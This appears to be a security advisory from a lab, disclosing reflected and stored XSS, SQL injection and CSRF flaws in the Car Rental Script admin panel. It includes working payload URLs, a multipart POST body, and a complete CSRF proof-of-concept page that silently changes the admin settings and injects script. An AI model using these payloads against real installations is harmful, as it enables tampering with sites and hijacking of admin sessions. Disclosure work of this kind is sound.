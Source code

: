 ### Car Rental Script- the lastest version - SQL Injection/XSS/CSRF

#### ADLab of Venustech

Well,  when I pentest the official demo site of Car Rental Script, I found some vulnerabilities here.


#### XSS:

##### Reflect-XSS

```
http://travelbookingscript.com/demo/taxibooking_new/admin/areaedit.php?carid=1%27%22%3E123%3Cimg%20src=x%20onerror=console.log(/XSS/)%3E123%3C%22
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Car-Rental-Script/xss1.png)


##### Stored-XSS 


```
http://travelbookingscript.com/demo/taxibooking_new/admin/sitesettings.php
```

POST parameters:

```
------WebKitFormBoundary908AMAzKLBTagFpr
Content-Disposition: form-data; name="websitename"

Javana rent cars'"><svg/onload=alert(/XSS/)><'"

```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Car-Rental-Script/xss2.png)


#### SQL Injection:

##### sqli
```
http://travelbookingscript.com/demo/taxibooking_new/admin/carlistedit.php?carid=36
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Car-Rental-Script/sqli.png)


You can see,  we can obtain the current data user or more sensitive data now!


#### CSRF

We can use csrf attack to cheat the user to change sensitive settings in the user panel, even add stored-xss content into it.

poc:

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <script>
      function submitRequest()
      {
        var xhr = new XMLHttpRequest();
        xhr.open("POST", "http:\/\/travelbookingscript.com\/demo\/taxibooking_new\/admin\/sitesettings.php?succ", true);
        xhr.setRequestHeader("Content-Type", "multipart\/form-data; boundary=----WebKitFormBoundary908AMAzKLBTagFpr");
        xhr.setRequestHeader("Accept", "text\/html,application\/xhtml+xml,application\/xml;q=0.9,image\/webp,image\/apng,*\/*;q=0.8");
        xhr.setRequestHeader("Accept-Language", "zh-CN,zh;q=0.9");
        xhr.withCredentials = true;
        var body = "------WebKitFormBoundary908AMAzKLBTagFpr\r\n" + 
          "Content-Disposition: form-data; name=\"websitename\"\r\n" + 
          "\r\n" + 
          "Javana rent cars\'\"\x3e\x3csvg/onload=alert(/XSS/)\x3e\x3c\'\"\r\n" + 
          "------WebKitFormBoundary908AMAzKLBTagFpr\r\n" + 
          "Content-Disposition: form-data; name=\"title\"\r\n" + 
          "\r\n" + 
          "Javana rent cars script\r\n" + 
          "------WebKitFormBoundary908AMAzKLBTagFpr\r\n" + 
          "Content-Disposition: form-data; name=\"admin_mailid\"\r\n" + 
          "\r\n" + 
          "javanarentcars.com\r\n" + 
          "------WebKitFormBoundary908AMAzKLBTagFpr\r\n" + 
          "Content-Disposition: form-data; name=\"keyword\"\r\n" + 
          "\r\n" + 
          "Javanarentcars\r\n" + 
          "------WebKitFormBoundary908AMAzKLBTagFpr\r\n" + 
          "Content-Disposition: form-data; name=\"description\"\r\n" + 
          "\r\n" + 
          "Car Rental \r\n" + 
          "------WebKitFormBoundary908AMAzKLBTagFpr\r\n" + 
          "Content-Disposition: form-data; name=\"websiteurl\"\r\n" + 
          "\r\n" + 
          "http://www.javanarentcars.co.id\r\n" + 
          "------WebKitFormBoundary908AMAzKLBTagFpr\r\n" + 
          "Content-Disposition: form-data; name=\"adminmobi\"\r\n" + 
          "\r\n" + 
          "98413006621\r\n" + 
          "------WebKitFormBoundary908AMAzKLBTagFpr\r\n" + 
          "Content-Disposition: form-data; name=\"fbook\"\r\n" + 
          "\r\n" + 
          "https://www.facebook.com/javanarentcars\r\n" + 
          "------WebKitFormBoundary908AMAzKLBTagFpr\r\n" + 
          "Content-Disposition: form-data; name=\"twtr\"\r\n" + 
          "\r\n" + 
          "https://twitter.com/javanarentcars\r\n" + 
          "------WebKitFormBoundary908AMAzKLBTagFpr\r\n" + 
          "Content-Disposition: form-data; name=\"google\"\r\n" + 
          "\r\n" + 
          "https://accounts.google.com/#\r\n" + 
          "------WebKitFormBoundary908AMAzKLBTagFpr\r\n" + 
          "Content-Disposition: form-data; name=\"smtpserver\"\r\n" + 
          "\r\n" + 
          "mail.i-netsolution.com\r\n" + 
          "------WebKitFormBoundary908AMAzKLBTagFpr\r\n" + 
          "Content-Disposition: form-data; name=\"smtpuser\"\r\n" + 
          "\r\n" + 
          "user\r\n" + 
          "------WebKitFormBoundary908AMAzKLBTagFpr\r\n" + 
          "Content-Disposition: form-data; name=\"smtppass\"\r\n" + 
          "\r\n" + 
          "23001\r\n" + 
          "------WebKitFormBoundary908AMAzKLBTagFpr\r\n" + 
          "Content-Disposition: form-data; name=\"logo\"; filename=\"\"\r\n" + 
          "Content-Type: application/octet-stream\r\n" + 
          "\r\n" + 
          "\r\n" + 
          "------WebKitFormBoundary908AMAzKLBTagFpr\r\n" + 
          "Content-Disposition: form-data; name=\"oldlogo\"\r\n" + 
          "\r\n" + 
          "1510728426rent cars.jpg\r\n" + 
          "------WebKitFormBoundary908AMAzKLBTagFpr\r\n" + 
          "Content-Disposition: form-data; name=\"submit\"\r\n" + 
          "\r\n" + 
          "Submit\r\n" + 
          "------WebKitFormBoundary908AMAzKLBTagFpr--\r\n";
        var aBody = new Uint8Array(body.length);
        for (var i = 0; i < aBody.length; i++)
          aBody[i] = body.charCodeAt(i); 
        xhr.send(new Blob([aBody]));
      }
    </script>
    <form action="#">
      <input type="button" value="Submit request" onclick="submitRequest();" />
    </form>
  </body>
</html>

```

This vulnerability does not need evil attacker to login into the admin or the user panel.

